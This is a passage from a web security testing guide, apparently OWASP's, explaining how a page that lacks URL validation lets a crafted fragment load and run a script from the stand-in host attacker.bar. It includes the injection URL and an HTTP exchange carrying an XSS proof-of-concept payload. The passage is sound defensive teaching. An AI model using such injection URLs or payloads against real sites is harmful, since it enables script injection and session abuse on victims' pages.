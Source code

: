 Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the `example.foo` domain, with a URL like this:

```text
https://example.foo/main.php#https://attacker.bar/file.php
```

Request and response generated by `https://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: https://example.foo/main.php
origin: https://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

## References

- [OWASP HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)

